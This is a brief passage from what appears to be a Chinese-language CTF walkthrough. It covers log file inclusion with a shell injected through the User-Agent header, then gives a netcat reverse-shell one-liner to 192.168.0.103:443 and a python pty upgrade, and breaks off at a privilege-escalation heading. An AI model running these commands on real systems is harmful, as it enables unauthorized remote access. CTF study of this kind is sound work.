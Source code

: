 <img src=".\图片\Snipaste_2022-11-26_18-03-28.png" alt="Snipaste_2022-11-26_18-03-28" style="zoom:80%;" />

包含日志，在UA头里写shell，ctf题里的套路

<img src=".\图片\Snipaste_2022-11-26_18-13-42.png" alt="Snipaste_2022-11-26_18-13-42" style="zoom:80%;" />

执行反弹shell命令，python交互

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.103 443 >/tmp/f
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### 提权：
